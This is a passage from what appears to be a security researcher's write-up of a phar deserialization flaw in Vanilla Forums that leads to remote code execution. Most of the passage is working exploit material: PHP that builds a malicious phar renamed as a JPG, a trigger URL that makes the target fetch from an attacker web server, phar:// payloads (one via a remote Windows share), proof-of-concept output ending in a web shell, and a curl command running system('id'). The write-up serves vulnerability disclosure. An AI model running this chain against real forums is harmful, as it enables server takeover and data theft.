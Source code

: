 ```php
$phar->setMetadata(new Gdn_Configuration());
$phar->stopBuffering();

// we rename it now
rename("poc.phar", "poc.jpg");
```

<p class="cn" markdown="1">Now, to trigger the bug, we just need to do:</p>

`http://target/index.php?p=/dashboard/utility/fetchPageInfo/http:%2f%2f[attacker-web-server]:9090%2f`

<p class="cn" markdown="1">The URL encoding is important for exploitation. Now the attackers web server responds with:</p>

```html
<html><body><img src="phar:///var/www/html/uploads/6O51ZT69P0S4.jpg">a</img></body></html>
```

<p class="cn" markdown="1">Or, if you exploiting this vulnerability on Windows, you can do:</p>

```html
<html><body><img src="phar:////attacker/share/test.phar">a</img></body></html>
```

<p class="cn" markdown="1">The exploit I sent to Vanilla uses their own code to upload the image and leak the filename, which was an admin level authenticated feature. But it certainly doesn't mean that this bug is authenticated! Here is the output of my exploit.</p>

```txt
saturn:~ mr_me$ ./poc.py 172.16.175.143 admin:admin123 172.16.175.1
(+) targeting: http://172.16.175.143
(+) logged in!
(+) uploaded phar!
(+) leaked phar name 6O51ZT69P0S4.jpg!
(+) starting http server...
(!) triggered callback for phar!
(+) triggered a write!
(+) shell at: http://172.16.175.143/?c=phpinfo();

saturn:~ mr_me$ curl -sSG "http://172.16.175.143/?c=system('id');"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### The patch

<p class="cn" markdown="1">The [patch](https://github.com/vanilla/vanilla/commit/7e931112fb31da12e1566f6aa82c3f57cd3e8bcc) is interesting because the developer has also included their test cases against the vulnerable function. So maybe someone can develop their own test cases and bypass the patch!</p> 

```php
        $r = [
            'root' => ['/foo', 'http://ex.com/bar', 'http://ex.com/foo'],
            'relative' => ['bar', 'http://ex.com/foo', 'http://ex.com/foo/bar'],
            'relative slash' => ['bar', 'http://ex.com/foo/', 'http://ex.com/foo/bar'],
            'scheme' => ['https://ex.com', 'http://ex.com', 'https://ex.com'],
            'schema-less' => ['//ex.com', 'https://baz.com', 'https://ex.com'],
            'bad scheme' => ['bad://ex.com', 'http://ex.com', ''],
            'bad scheme 2' => ['foo', 'bad://ex.com', ''],
            '..' => ['../foo', 'http://ex.com/bar/baz', 'http://ex.com/bar/foo'],
            '.. 2' => ['../foo', 'http://ex.com/bar/baz/', 'http://ex.com/bar/foo'],
            '../..' => ['../../foo', 'http://ex.com/bar/baz', 'http://ex.com/foo'],
        ];
```
